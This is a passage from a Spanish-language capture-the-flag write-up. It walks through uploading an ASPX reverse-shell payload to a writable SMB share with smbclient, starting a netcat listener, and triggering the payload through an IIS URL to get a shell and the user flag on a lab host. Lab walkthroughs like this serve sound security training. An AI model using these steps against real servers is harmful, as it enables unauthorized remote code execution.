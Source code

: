 El archivo exploit.aspx fue guardado con un tamaño de 3413 bytes.

7.2 ⬆️ Subida del Exploit al Recurso Compartido

El recurso compartido nt4wrksv no solo permitía el acceso, sino también la escritura, lo que confirmamos al subir el payload directamente usando smbclient.

<img width="813" height="478" alt="subi el exploit al recuros" src="https://github.com/user-attachments/assets/b9b9275d-3ca2-4542-bf90-d23a246879f5" />

Comando
````
Bash

smbclient //10.10.137.195/nt4wrksv
smb: \> put exploit.aspx
````

Una verificación con ls confirma que exploit.aspx reside ahora junto al archivo passwords.txt.

7.3 🎣 Preparación del Listener

Antes de ejecutar el payload, configuramos un oyente (listener) en la máquina atacante utilizando netcat en el puerto especificado (8080) para capturar la reverse shell.

Comando
````
Bash

nc -lvp 8080
````

7.4 💥 Ejecución de la Carga Útil

La clave del éxito reside en que el recurso compartido SMB nt4wrksv está montado como un directorio accesible por el servidor web en el puerto 49663. Al acceder a la URL, el servidor IIS ejecuta el código ASPX.

<img width="1708" height="469" alt="ejecuto exploit a traves de p49663" src="https://github.com/user-attachments/assets/31e31a34-496d-4617-aed8-c4be05cd66c3" />

Acceso Web (Ejecución)

http://10.10.137.195:49663/nt4wrksv/exploit.aspx

🛡️ Acceso Obtenido

Al cargar la URL en el navegador, el código ASPX se ejecuta en el servidor y establece la conexión inversa con nuestro listener.


## 👤 Paso 8: Post-Explotación y Obtención de la Flag de Usuario (user.txt)

Una vez que se establece la reverse shell (Paso 7), el objetivo inmediato es identificar el usuario bajo el que se ejecuta el shell y localizar la primera flag requerida por el cliente, user.txt.

Objetivo: Localizar el directorio del usuario y obtener el contenido de user.txt.

<img width="784" height="600" alt="dentro del user bob obtengo flag user" src="https://github.com/user-attachments/assets/2e589665-9923-4a24-8cba-227ac238cf95" />
